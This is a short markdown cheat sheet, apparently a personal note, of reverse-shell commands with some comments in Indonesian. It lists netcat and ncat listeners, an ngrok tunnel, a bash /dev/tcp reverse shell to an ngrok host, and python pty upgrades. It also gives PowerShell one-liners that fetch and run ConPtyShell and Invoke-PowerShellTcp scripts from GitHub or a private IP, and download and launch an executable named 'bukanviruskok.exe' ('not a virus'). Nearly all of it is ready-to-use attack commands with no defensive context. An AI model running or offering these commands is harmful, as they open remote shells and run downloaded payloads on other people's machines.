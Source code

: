 ##Open Netcat Server

- nc -lv localhost 8782
- ncat -lvnp 1234

##target windows :
- stty raw -echo; (stty size; cat) | ncat -lvnp 1337

##Spawn Ngrok Server
- ngrok tcp 8782

##Payload Client :
- https://www.revshells.com
- https://bit.ly/3yNL1hg
- sh -i >& /dev/tcp/6.tcp.ngrok.io/15060 0>&1


##Spawn TTY
- python -c 'import pty; pty.spawn("/bin/sh")'
- python -c 'import pty; pty.spawn("/bin/bash")'

##Spawn python server :
python3 -m http.server 9000

#powershell
- powershell IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.9.1.25 1337

#buat yg ga ada iwr/old version windows :

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.1.25:9000/payload/revshellwindow.ps1');Invoke-ConPtyShell 10.9.1.25 1337

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.1.25:9000/payload/revshellwindowold.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.9.1.25 -Port 1337

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/payload/bukanviruskok.exe','bukanviruskok.exe')"

- Start-Process "bukanviruskok.exe"
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/tes.bat','tes.bat')"